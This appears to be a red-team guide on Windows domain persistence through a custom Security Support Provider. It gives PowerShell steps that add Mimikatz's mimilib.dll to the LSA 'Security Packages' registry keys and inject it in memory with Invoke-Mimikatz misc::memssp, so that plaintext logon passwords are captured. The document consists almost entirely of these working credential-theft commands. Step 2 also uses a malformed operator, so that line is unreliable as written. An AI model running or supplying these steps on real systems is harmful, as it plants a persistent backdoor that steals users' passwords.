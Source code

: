 ```yaml
---
legal-banner: true
---
```


### **Domain Persistence via Custom SSP**

Custom Security Support Providers (SSPs) can be used to capture plaintext passwords from users who log on.  
This guide provides steps to set up a custom SSP using a DLL, such as `mimilib.dll` from Mimikatz.  

### **Steps to Set Up a Custom SSP**

1. Get current security packages: 
   ```powershell
   $packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
   ```

2. Append the custom DLL (e.g., mimilib):  
   ```powershell
   $packages `= "mimilib"
   ```

3. Update the **OSConfig** registry key with the new packages:  
   ```powershell
   Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' -Value $packages
   ```

4. Update the **Lsa** registry key with the new packages:  
   ```powershell
   Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages' -Value $packages
   ```

5. Alternative method using Mimikatz to inject mimilib:  
   ```powershell
   Invoke-Mimikatz -Command '"misc::memssp"'
   ```